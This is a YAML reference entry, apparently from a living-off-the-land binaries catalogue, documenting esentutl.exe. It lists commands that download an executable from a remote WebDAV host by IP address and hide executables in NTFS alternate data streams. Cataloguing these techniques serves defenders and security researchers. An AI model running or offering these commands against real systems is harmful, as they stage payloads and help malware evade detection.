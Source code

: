 ```yaml
---
Name: Esentutl.exe
Description: Copy, Download, Write ADS, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to the destination Alternate Data Stream (ADS) of the destination file.
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o
    Description: Copies the source EXE to the destination EXE file.
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
Full Path:
  - c:\windows\system32\esentutl.exe
  - c:\windows\sysWOW64\esentutl.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to egre55 - @egre55
---
```

